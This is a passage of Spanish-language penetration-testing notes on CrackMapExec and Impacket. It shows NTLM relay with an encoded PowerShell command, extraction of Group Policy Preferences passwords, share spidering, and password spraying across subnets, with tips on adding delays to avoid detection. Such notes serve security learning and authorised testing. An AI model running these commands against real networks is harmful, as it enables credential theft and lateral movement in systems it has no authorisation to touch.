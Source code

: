 
## Explotación de Vulnerabilidades Específicas

### Abuso de Protocolo NTLM

```bash
# Relaying de hashes NTLM (requiere Impacket)
# En una terminal:
impacket-ntlmrelayx -t 192.168.1.100 -smb2support -c "powershell -enc <comando>"

# En otra terminal:
crackmapexec smb 192.168.1.50 -u 'usuario' -p 'contraseña' -M spider_plus
```

> [!info] NTLM Relay
> Esta técnica aprovecha debilidades en la implementación del protocolo NTLM para "redirigir" intentos de autenticación legítimos a otros sistemas objetivo.

### Abuso de GPP (Group Policy Preferences)

```bash
# Buscar contraseñas en GPP
crackmapexec smb 192.168.1.10 -u 'usuario' -p 'contraseña' -M gpp_password
```

---

## Buenas Prácticas y Tips

> [!tip] Consejos para optimizar el uso de CrackMapExec
> 
> 1. **Mantén logs detallados**: Usa la opción `-v` para obtener más información y guarda los resultados.
>    ```bash
>    crackmapexec smb 192.168.1.0/24 -u user -p pass -v | tee cme_results.txt
>    ```
> 
> 2. **Evita bloquear cuentas**: Usa la opción `--no-bruteforce` para evitar intentos repetidos que puedan bloquear cuentas.
> 
> 3. **Utiliza archivos para credenciales largas**: En lugar de escribir largas listas de credenciales en la línea de comandos.
> 
> 4. **Crea archivos de configuración**: Usa el archivo ~/.cme/cme.conf para configuraciones personalizadas.
> 
> 5. **Implementa pausas entre intentos**: Con `--delay` para reducir la probabilidad de detección.
>    ```bash
>    crackmapexec smb 192.168.1.0/24 -u users.txt -p pass.txt --delay 5
>    ```

> [!warning] Errores comunes a evitar
> 
> 6. **No especificar el dominio correctamente**: Para autenticación de dominio, asegúrate de especificar el nombre de dominio correcto con `-d`.
> 
> 7. **Formato incorrecto de hash**: Para Pass-the-Hash, asegúrate de usar el formato correcto `LM:NTLM`.
> 
> 8. **Ignorar los firewalls**: Considera que los firewalls pueden bloquear ciertos puertos/protocolos.
> 
> 9. **No manejar adecuadamente las credenciales**: Evita guardar credenciales en archivos de texto sin cifrar.
> 